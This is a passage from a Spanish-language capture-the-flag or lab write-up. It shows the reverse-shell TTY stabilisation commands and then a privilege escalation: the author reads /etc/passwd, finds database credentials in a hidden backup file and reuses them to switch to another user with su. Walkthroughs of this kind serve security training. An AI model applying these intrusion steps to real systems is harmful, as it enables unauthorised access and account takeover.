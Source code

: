 ```bash
script /dev/null -c bash
```
`ctrl Z`
```bash
stty raw -echo; fg
```
```bash
reset xterm
```
```bash
export TERM=xterm
```
```bash
export BASH=bash
```

# ESCALADA DE PRIVILEGIOS

Una vez dentro, comprobamos permisos `sudo` y `SUID`, pero no encontramos nada.
Leemos el archivo `/etc/passwd` y encontramos que existe un usuario llamado `luisillo`.

Buscamos entre los directorios y acabamos encontrando, en `/var/backups/hidden/`, un archivo llamado `otro_caramelo.txt`, con el siguiente contenido:

```
Aqui esta su caramelo Joven :)

<?php
// Información sensible
$db_host = 'localhost';
$db_user = 'luisillo';
$db_pass = 'luisillosuperpassword';
$db_name = 'joomla_db';

// Código de conexión a la base de datos
function connectToDatabase() {
    global $db_host, $db_user, $db_pass, $db_name;
    $conn = new mysqli($db_host, $db_user, $db_pass, $db_name);
    if ($conn->connect_error) {
        die("Conexión fallida: " . $conn->connect_error);
    }
    return $conn;
}

// Información adicional
echo "Bienvenido a Joomla en línea!";
?>
```

Encontramos las credenciales de la base de datos para el usuario `luisillo`.

Vamos a reutilizarlas para intentar autenticarnos como el usuario `luisillo` en el sistema.

```bash
www-data@5bc7cbda960b:/var/backups/hidden$ su luisillo
Password: luisillosuperpassword
luisillo@5bc7cbda960b:/var/backups/hidden$
```
